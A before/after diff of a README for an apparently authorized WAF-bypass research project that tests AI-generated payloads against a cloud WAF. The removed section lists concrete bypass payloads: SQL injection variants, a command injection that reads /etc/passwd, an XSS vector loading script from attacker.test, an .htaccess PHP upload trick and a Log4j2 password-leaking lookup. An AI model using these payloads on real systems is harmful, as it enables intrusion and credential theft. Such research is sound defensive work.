

Before and after one commit to Kittyyyyhyh/Kwaftest, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
README: 撤除样本成果数据表, 改为方法论+发现导向的研究发现节
样本成果(载荷库/通过率统计)为本地运行产物, 不入库。
README 不再展示绕过率数字, 收敛为定性研究发现 + 代表技法 + 能力边界,
与仓库定位(方法论+工具链+知识库)一致。

```diff
--- a/README.md
+++ b/README.md
@@ -69,39 +69,34 @@ python3 platform/server.py --port 8787    # http://127.0.0.1:8787
 
 ---
 
-## 📊 样本成果（实测通过样本库）
+## 🔬 研究发现（WAF 语义引擎能力边界）
 
-> 口径：样本库为 **AI 生成 → 远程实测全量记录**（HTTP 200 = WAF 放行 / 403 = 拦截）。**绕过率按实测计算，非 100%**——每个样本都是真实请求，被拦的也如实入库。
+> 研究结论来自对真实云 WAF 的**授权远程实测**。样本载荷库是本地运行积累成果，不入库——本仓库只沉淀方法与结论。
 
-| 指标 | 值 |
-|---|---|
-| 样本库总量 | **5,295**（已通过 2,050 · 被拦截 3,245） |
-| 整体绕过率 | **≈39%**（2,050/5,295，历史累计口径） |
-| 场景通过分布 | sqli 1,610 · cmdi 399 · upload 28 · xss 7（验证中）· log4j2 6（验证中） |
-| 已确认技法 | **18**（confirmed ≥60% 通过率，跨 5 场景） |
-| 知识库原语 | **216** |
-| 实测环境 | 真实腾讯云 WAF（远程，200=放行 / 403=拦截） |
+**语义引擎检测强、边界失手**：
 
-**本轮有效技法（真实通过云 WAF）**：
+1. **对"形态完整"攻击检测强**：SQLi 结构变换、XSS 标签/事件、Log4j2 全 JNDI 混淆家族（rmi/dns/iiop/哈希片段/无点ı/lower/嵌套）均被语义化覆盖。
+2. **对"零脚本语法"gadget 失手**：DOM clobbering（`<img name=currentScript>`）等无任何脚本语法的向量未被识别——这是语义引擎对"无特征形态"的结构性盲区。
+3. **词法拆分最通用**：关键字双写/引号拆分/反斜杠靠"打断关键字连续匹配"稳定突破，sqli 与 cmdi 双场景互验。
+4. **Log4j2 检出单向**：JNDI 混淆全拦，但 `${bundle:}`/`${env:}` 等非 JNDI 信息泄露 lookup 全放行——信息泄露面是缺口。
+5. **上传配置注入盲区**：`.htaccess`/`user.ini` 配置指令、扩展名、multipart `filename*` 解析器差异类向量未拦，可执行 PHP 内容则被严格拦截。
 
-| 技法 | 结构/原语 | 示例 |
-|------|------|------|
-| CASE WHEN × REGEXP 布尔盲注 | 函数布尔盲注（原零通过，破 54 变体） | `1 AND CASE WHEN (SELECT flag FROM flags LIMIT 1) REGEXP 0x5e66 THEN 1 ELSE 2 END=1` |
-| 引号拆分族 | `gen:quote_split_all`（64% confirmed） | `1 A'ND CA'SE WH'EN (SEL'ECT ...)` |
-| 关键字双重写 | `gen:double_write_all`（56% boundary） | `1 ANDand CASEcase WHENwhen ...` |
-| CMDi 参数展开 | 环境变量/空参（原零通过，破 10 变体） | `:;true && c'at${PATH:0:1}etc${PATH:0:1}passwd` |
-| CMDi ANSI-C 引号 | `cmdi:lexical:ansi_c_quoting` | `$'\143\141\164' $'\057\145\164\143\057\160\141\163\163\167\144'` |
-| XSS DOM clobbering | xss 首个通过向量（3 变体） | `<img name="currentScript" src="https://attacker.test/evil.js">` |
-| Upload 配置注入 | .htaccess / user.ini（43% 通过） | `AddType application/x-httpd-php .png` |
-| Log4j2 非 JNDI 泄露 | `log4j2:lookup:info_disclosure` | `${bundle:application:spring.datasource.password}` |
+**代表性技法**（按场景，载荷库为本地成果）：
 
-**关键洞察**：
+| 场景 | 代表技法 |
+|------|---------|
+| SQLi | CASE WHEN × REGEXP 布尔盲注 · 关键字双重写 · 引号拆分 |
+| CMDi | 参数展开 `${PATH:0:1}` 拼路径 · ANSI-C 引号 · 逻辑链稀释 |
+| XSS | DOM clobbering（gadget 型，无脚本语法） |
+| Upload | 配置注入（.htaccess/.user.ini）· multipart 解析器差异 |
+| Log4j2 | 非 JNDI lookup 信息泄露 |
 
-1. **语义引擎对"形态完整"攻击检测强、对"零脚本语法"失手**：SQLi 结构、XSS 标签事件、JNDI 全混淆家族都被语义化覆盖；但**无任何脚本语法的 gadget（DOM clobber `<img name=currentScript>`）和配置指令（.htaccess/user.ini）是明确盲区**。
-2. **词法拆分是最通用杠杆**：双写/引号拆分/反斜杠在 sqli 与 cmdi 双场景互验，靠"打断关键字连续匹配"稳定突破。
-3. **Log4j2 检出强但单向**：JNDI 13 类混淆（rmi/dns/iiop/哈希片段/无点ı/lower/嵌套）全拦，但 `${bundle:}`/`${env:}` 非 JNDI 泄露全放行——信息泄露面是结构性缺口。
-4. **绕过率是画出来的，不是标出来的**：云 WAF 总体拦截强（整体 38%），突破集中在边界结构；已确认技法与"样本通过"严格区分，杜绝"100% 通过"式失真。
-5. **基线稳定**：WAF 规则更新（X-WAF-UUID 变更）后复验代表样本 17/17 仍通过。
+**工程能力**（学习循环让 skill 持续变强）：
+
+- 结构覆盖报告驱动"生成前锁定零通过/低覆盖结构"
+- 语句合成器从「语句骨架 × 语法部件」结构性生成全新语句
+- 通过样本按结构类策展进进化种子库
+- WAF 规则升级检测（X-WAF-UUID 追踪）+ 基线复验
 
 ---
 
@@ -129,7 +124,7 @@ curl "http://localhost:8090/sqli/level1.php?id=1+UNION+SELECT+1,2,3"   # → 403
 │   ├── lib/                          #   schema / 生成器 / 远程执行器 / 学习分析
 │   │   ├── composer.py               #     语句合成器（结构性生成新语句）
 │   │   └── structures.py             #     攻击结构分类 / 覆盖报告 / 新颖性缺口
-│   ├── knowledge/                    #   知识库(216原语) + 已确认技法 + 种子库
+│   ├── knowledge/                    #   知识库(216原语) + 已确认技法（种子/样本库为本地运行成果，不入库）
 │   ├── corpus/                       #   样本库 samples.jsonl + 测试事件 tests.jsonl
 │   ├── scripts/                      #   run_round.py 一轮循环 / curate_seeds.py 种子策展
 │   ├── rounds/                       #   各轮探针与结果记录
```
